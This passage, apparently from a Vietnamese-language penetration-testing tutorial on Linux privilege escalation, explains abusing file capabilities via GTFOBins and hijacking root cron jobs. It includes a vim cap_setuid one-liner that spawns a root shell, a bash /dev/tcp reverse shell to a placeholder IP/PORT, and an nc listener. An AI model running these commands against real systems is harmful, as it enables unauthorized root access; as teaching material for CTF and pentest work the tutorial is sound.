 ```

```getcap -r / 2>/dev/null```

```GTFObins``` có một danh sách các tệp nhị phân hữu ích có thể được sử dụng để leo thang đặc quyền nếu chúng tôi tìm thấy bất kỳ khả năng nào được thiết lập.

Ví dụ lệnh ```vim = cap_setuid+ep``` ta có thể dùng câu lênh này để leo thang đặc quyền

```
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
## Privilege Escalation: Cron Jobs
Cron job được sử dụng để chạy các tập lệnh hoặc tệp nhị phân tại những thời điểm cụ thể. Theo mặc định, chúng chạy với đặc quyền của chủ sở hữu chứ không phải người dùng hiện tại. Mặc dù các cron job được cấu hình đúng cách về cơ bản không dễ bị tấn công, nhưng chúng có thể cung cấp một vectơ leo thang đặc quyền trong một số điều kiện.
Ý tưởng khá đơn giản; nếu có một tác vụ được lên lịch chạy với đặc quyền root và chúng ta có thể thay đổi tập lệnh sẽ được chạy, thì tập lệnh của chúng ta sẽ chạy với đặc quyền root.

Cấu hình cron job được lưu trữ dưới dạng crontab (bảng cron) để xem thời gian và ngày tháng tiếp theo mà tác vụ sẽ chạy.

Mỗi người dùng trên hệ thống đều có tệp crontab riêng và có thể chạy các tác vụ cụ thể cho dù họ có đăng nhập hay không. Như bạn có thể mong đợi, mục tiêu của chúng ta sẽ là tìm một cron job do root thiết lập và để nó chạy tập lệnh của chúng ta, lý tưởng nhất là một shell.

Bất kỳ người dùng nào cũng có thể đọc tệp này và giữ các cron job trên toàn hệ thống trong ```/etc/crontab```

Mặc dù các máy CTF có thể chạy cron job mỗi phút hoặc mỗi 5 phút, nhưng bạn sẽ thường thấy các tác vụ chạy hàng ngày, hàng tuần hoặc hàng tháng trong các đợt kiểm tra thâm nhập.

Ví dụ tệp ```backup.sh``` tập lệnh đã được cấu hình để chạy mỗi phút. Nội dung của tệp hiển thị một tập lệnh đơn giản tạo bản sao lưu của tệp prices.xls.

Vì người dùng hiện tại của chúng ta có thể truy cập tập lệnh này, chúng ta có thể dễ dàng sửa đổi nó để tạo một reverse shell, hy vọng là với quyền root.

Tập lệnh sẽ sử dụng các công cụ có sẵn trên hệ thống đích để khởi chạy reverse shell.

```
#!/bin/bash
bash -i >& /dev/tcp/IP/PORT/ 0>&1
```
Bây giờ chúng ta sẽ chạy trình lắng nghe trên máy tấn công để nhận kết nối đến.

```
nc -nlvp PORT
```

Luôn nên kiểm tra Crontab vì đôi khi nó có thể dễ dàng dẫn đến việc leo thang đặc quyền. Tình huống sau đây không hiếm gặp ở những công ty chưa đạt được mức độ trưởng thành nhất định về an ninh mạng:

1. Người quản trị hệ thống cần chạy tập lệnh theo định kỳ.
2. Họ tạo một công việc cron để làm điều này
3. Sau một thời gian, tập lệnh trở nên vô dụng và họ xóa nó
4. Họ không dọn dẹp công việc cron có liên quan

Vấn đề quản lý thay đổi này dẫn đến khả năng khai thác các tác vụ cron. Mặc dù tệp đã bị xóa nhưng kẻ tấn công vẫn có thể giả mạo tệp là một reverse shell để leo thang đặc quyền

## Privilege Escalation: PATH
```